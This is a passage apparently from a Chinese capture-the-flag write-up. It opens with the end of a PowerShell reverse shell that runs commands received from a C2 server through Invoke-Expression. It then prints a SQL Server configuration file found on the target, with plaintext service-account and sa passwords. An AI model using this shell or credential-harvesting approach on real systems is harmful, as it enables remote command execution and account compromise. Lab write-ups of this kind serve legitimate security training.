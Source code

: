 ```shell
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close()
```

看到用户文件夹下的 `Download` 有个 `SQLEXPR-2019_x64_ENU` 目录，进去发现 `sql-Configuration.INI`，内容如下：

```ini
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

